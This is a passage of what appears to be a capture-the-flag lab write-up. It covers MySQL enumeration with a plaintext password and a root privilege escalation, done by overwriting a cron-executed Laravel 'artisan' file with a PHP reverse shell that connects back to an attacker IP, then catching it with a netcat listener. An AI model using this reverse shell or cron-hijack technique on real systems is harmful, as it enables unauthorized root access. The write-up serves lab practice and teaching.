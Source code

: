 #### MySQL Enumeration:

```
mysql -u admin -p
password: kEjdbRigfBHUREiNSDs

show databases;
information_schema
admin

use admin;
users
```

* This ended up going nowhere unfortunately — Rabbit hole 1

#### Privilege Escalation:

* I ended up going back to the linpeas output and it ended up being the cronjob that was vulnerable to command execution.
*   I simply deleted artisan found within /var/www/laravel and replaced it with the same name artisan and added a 3 liner PHP reverse shell:

    ```
    <?php

    $sock=fsockopen("10.10.14.76",1234);exec("/bin/sh -i <&3 >&3 2>&3");

    ?>
    ```
* chmod +x artisan — this changes the permissions of the file to execute upon cronjob.
* I then started a netcat listener on port 1234 and waited one minute for the cronjob to execute on the victim host.

```
nc -lnvp 1234                                              4.6m  Wed 03 Aug 2022 07:19:53 PM EDT
listening on [any] 1234 ...
connect to [10.10.14.76] from (UNKNOWN) [10.129.80.144] 60898
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

#### ROOOOOOOOOT!
